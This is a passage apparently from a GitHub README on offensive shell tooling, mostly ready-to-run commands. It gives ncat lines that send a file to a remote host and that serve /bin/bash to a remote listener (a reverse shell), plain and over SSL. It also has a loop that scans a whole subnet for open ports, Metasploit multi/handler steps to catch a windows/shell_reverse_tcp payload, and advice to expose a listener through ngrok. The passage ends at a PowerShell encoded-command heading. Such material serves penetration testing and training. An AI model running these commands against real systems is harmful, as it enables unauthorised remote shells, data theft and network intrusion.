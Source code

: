 [Client] Connect to a remote host:

```fundamental
ncat -nv 192.168.8.5 9000

ncat -nv 192.168.8.5 9000 < sent_data.txt

ncat -nv 192.168.8.5 9000 -e /bin/bash

ncat -nv 192.168.8.5 9000 -e /bin/bash --ssl

ncat -nv 192.168.8.5 9000 --ssl-cert "sws_crt.pem" --ssl-key "sws_key.pem"
```

Check if it is possible to connect to a specific TCP port (e.g. port 22 or 23):

```bash
for i in {0..255}; do ncat -nv 192.168.5.$i 9000 -w 2 -z 2>&1 | grep -P -o "(?<=Connected\ to\ )[^\s]+(?=\.)"; done

for ip in $(cat ips.txt); do ncat -nv $ip 9000 -w 2 -z 2>&1 | grep -P -o "(?<=Connected\ to\ )[^\s]+(?=\.)"; done
```

For more options run `man ncat` or `ncat -h`.

Find out how to create an SSL/TLS certificate from my other [project](https://github.com/ivan-sincek/secure-website/tree/master/crt).

### multi/handler

Set up a `multi/handler` module (change the PAYLOAD, LHOST and LPORT as needed):

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 127.0.0.1

set LPORT 9000

exploit
```

### ngrok

Use [ngrok](https://ngrok.com/download) to give your local web server a public address (if needed), but do not expose the web server for too long if it is not properly hardened due to security concerns.

I would also advise you not to transfer any sensitive data over it, just in case.

### PowerShell Encoded Command
